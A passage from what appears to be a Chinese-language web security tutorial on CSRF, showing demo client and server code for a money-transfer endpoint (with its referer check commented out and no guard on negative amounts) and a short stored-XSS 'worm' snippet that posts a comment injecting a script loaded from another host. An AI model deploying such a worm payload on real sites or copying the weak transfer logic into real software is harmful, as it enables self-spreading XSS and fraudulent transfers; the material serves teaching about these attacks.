 ```js
function getClientToken() {
    let result = document.cookie.match(/token=([^;]+)/);
    return result ? result[1] : '';
}
function transfer(event) {
    event.preventDefault();
    let target = $('#target').val();
    let amount = $('#amount').val();
    let captcha = $('#captcha').val();
    $.post('/api/transfer', {
        target,
        amount,
        captcha,
        clientToken: getClientToken()
    }).then(data => {
        if(data.code == 0) {
            alert('转账成功');
            location.reload();
        } else {
            alert('用户未登录');
            location.href='/login.html';
        }
    });
}
```
server.js
```js
app.post('/api/transfer', function(req, res) {
    // let referer = req.headers['referer'];
    //if (/^https?:\/\/localhost:3000/.test(referer)) {
    let { target, amount, clientToken, captcha } = req.body;
    amount = isNaN(amount) ? 0 : Number(amount);
    let { username, token } = userSessions[req.cookies.sessionId];
    if (username) {
        if (clientToken == token) {
            let user;
            for (let i = 0; i < users.length; i++) {
                if (username == users[i].username) {
                    users[i].money -= amount;
                } else if (target == users[i].username) {
                    users[i].money += amount;
                }
            }
            res.json({ code: 0 });
        } else {
            res.json({ code: 1, error: '违法操作' });
        }
    } else {
        res.json({ code: 1, error: '用户没有登录' });
    }
    //} else {
    res.json({ code: 1, error: 'referer不正确' });
    //}
})
```
#### 2.2.4 xss+csrf（蠕虫）
不断传播的xss+csrf攻击worm.js
```js
const attack = '<script src="http://localhost:3001/worm.js"></script>';
$.post('/api/comments', { content: 'haha' + attack });
```
## 3.DDOS攻击